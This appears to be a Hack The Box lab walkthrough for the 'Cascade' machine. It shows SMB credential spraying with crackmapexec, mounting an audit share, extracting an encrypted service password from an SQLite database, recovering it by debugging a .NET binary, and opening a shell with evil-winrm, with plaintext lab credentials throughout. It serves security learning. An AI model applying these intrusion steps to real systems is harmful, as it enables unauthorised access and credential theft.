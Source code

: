 # 15 - PrivEsc


# Audit share
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]                                                  
└──╼ $ cme smb 10.10.10.182 -u user.lst -p pass.lst  --shares                                   
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```
# Files
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade/]
└──╼ $ sudo mount -t cifs -o user='s.smith',pass='sT333ve2' //10.10.10.182/Audit\$ /mnt/cascade/audit
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ find audit/ -type f 
audit/CascAudit.exe
audit/CascCrypto.dll
audit/DB/Audit.db
audit/RunAudit.bat
audit/System.Data.SQLite.dll
audit/System.Data.SQLite.EF6.dll
audit/x64/SQLite.Interop.dll
audit/x86/SQLite.Interop.dll

```

# Database
```sql
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade/audit]
└──╼ $ sqlite3  DB/Audit.db 
sqlite> .tables
DeletedUserAudit  Ldap              Misc
sqlite> .schema Ldap
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
sqlite> Select * from LDAP;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local

```


Password seems to be encrypted and base64 encoded.

# .Net Assembly

```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ file audit/CascAudit.exe
audit/CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

.Net binaries can easily be decompiled.



# CascAudit.exe decompiled
![](vx_images/2153428042971.png)

It connects to audit.db, grabs the encrypted password and decrypts it. Setting a breakpoint on the return line of DecryptString method could give us the decrypted password. Let's go ahead and set our breakpoint and then debug it.

# Password
![](vx_images/4541396809851.png)


# New credentials
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ cme smb 10.10.10.182 -u 'arksvc'  -p 'w3lc0meFr31nd'   --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd 
```

* arksvc: w3lc0meFr31nd


# Shell
```powershell
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```